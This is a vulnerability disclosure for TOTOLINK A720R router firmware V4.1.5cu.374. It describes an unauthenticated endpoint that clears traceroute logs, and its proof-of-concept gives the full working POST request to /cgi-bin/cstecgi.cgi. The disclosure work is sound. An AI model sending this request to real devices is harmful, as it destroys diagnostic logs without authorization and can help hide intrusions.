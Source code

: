 # Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/203/ids/36.html

# Affected version

V4.1.5cu.374

# Vulnerability details

The TOTOLINK A720R V4.1.5cu.374 firmware contains an ​​unauthorized traceroute log deletion vulnerability​​. This vulnerability occurs when a ​​POST request​​ is sent to `/cgi-bin/cstecgi.cgi` with the parameter `{"topicurl":"clearTracerouteLog"}`, allowing an attacker to ​​erase traceroute diagnostic logs without authentication​​.

# Poc

Traceroute logs are normally recorded. 

![图 0](img/9166f79d1c8a945b9d10562c88cf3aa96f52182619eb1db5d93257cc4c4c34ca.png)  

Send a request to clear the traceroute log.

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.140.79
Content-Length: 33
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.140.79
Referer: http://192.168.140.79/basic/index.html?time=1745238634622
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive

{"topicurl":"clearTracerouteLog"}
```

![图 1](img/be1dd0fe27997ad8b316ec938d79565494904ded811f49879ad5f48b7477f008.png)  

The traceroute log is cleared.

![图 2](img/db11419b265e73965c91ae1e362a997b31a4d9057c8c3f400b9270616afce102.png)  
